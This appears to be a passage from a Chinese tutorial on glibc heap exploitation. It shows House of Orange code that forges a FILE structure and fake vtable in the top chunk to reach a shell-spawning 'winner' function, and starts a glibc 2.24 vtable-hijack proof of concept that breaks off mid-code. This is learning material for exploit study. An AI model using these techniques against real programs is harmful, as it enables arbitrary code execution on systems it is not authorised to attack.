 ```c
// 将top chunk解释为一个FILE结构体
FILE *fp = (FILE *) top;
// 满足函数调用链中的_IO_flush_all_lockp()函数的要求
fp->_mode = 0; // top+0xc0
fp->_IO_write_base = (char *) 2; // top+0x20
fp->_IO_write_ptr = (char *) 3; // top+0x28

size_t *jump_table = &top[20]; // 我们将top chunk的vtable指向自身的某个地方，随意
jump_table[3] = (size_t) &winner; // top chunk的vtable的第[3]个函数也就是overflow，将其函数指针设置为winner
*(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top chunk的vtable指向刚刚设置的fake vtable

malloc(10); // 最终进行一次malloc，来完成unsortedbin attack开始的所有流程
```

其中`winner`函数就是咱们的后门函数。

```c
int winner(char *ptr)
{ 
    system(ptr); // 按照上面的步骤会传入一个/bin/sh
    syscall(SYS_exit, 0);
    return 0;
}
```

参考链接：

[ha1vik师傅](https://blog.csdn.net/seaaseesa/article/details/104314949)

[House_of_orange学习小结](https://www.cnblogs.com/L0g4n-blog/p/14217309.html)

[借助gdb调试glibc代码学习House of Orange - 简书 (jianshu.com)](https://www.jianshu.com/p/57a5c9a492aa?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)

# glibc2.24下的vtable check以及绕过

## vtable的check

在`glibc 2.23`中，我们可以劫持`_IO_FILE_plus`中的`vtable`，并使其指向我们可控的内存区域，便可使用`FSOP`等方式调用我们所需的函数。

然而，在`glibc2.24`下就有了关于`vtable`劫持的`check`。例如，我们可以在`glibc2.23`下使用如下代码完成`vtable`的劫持，触发后门函数：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void winner(char* code){
    system("echo win");
}


// 这个main函数在glibc2.23是完全可行的，最终可以执行winner函数。
int main(){
    // 我们通过打开一个文件的方式，来得到一个_IO_FILE_plus指针fp
    FILE* fp = fopen("./flag", "r");

    // 我们创建一个fake_vtable，尝试劫持_IO_FILE_plus的vtable指针
    size_t* fake_vtable = (size_t*)malloc(0x100);

    // 劫持vtable为fake_vtable
    *(size_t*)((char*)(fp) + 0xd8) = (size_t)fake_vtable;
    
    // 这条函数调用链最终会调用_IO_overflow,是vtable中的第三个函数指针
    fake_vtable[3] = (size_t)winner;
```